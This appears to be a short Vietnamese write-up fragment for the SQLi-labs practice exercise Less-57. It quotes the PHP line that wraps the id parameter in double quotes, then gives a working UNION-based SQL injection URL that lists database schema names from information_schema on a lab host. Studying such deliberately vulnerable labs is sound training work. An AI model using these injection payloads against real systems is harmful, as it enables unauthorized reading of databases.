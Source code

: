 - code 

```
$id= '"'.$id.'"';
```

- Làm bình thường với `"`

```
http://10.10.10.171/sqli-labs/Less-57/?id=0" union select 1,2,group_concat(schema_name) from information_schema.schemata --+
```
